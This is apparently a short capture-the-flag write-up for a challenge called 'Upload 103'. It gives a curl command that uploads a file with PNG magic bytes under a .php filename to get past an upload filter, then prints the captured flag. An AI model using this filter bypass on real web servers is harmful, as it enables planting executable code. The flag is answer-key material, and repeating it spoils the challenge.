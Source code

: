 # Upload 103

Sending a file that contains the png magic bytes:   
``curl -F "file=@sample.png;filename=sample.php" chal8.hackademy.ctf/upload3.php``

``FLAG-7RqClF58IjKX7u2sjqtxfQFomzXe4JZq``
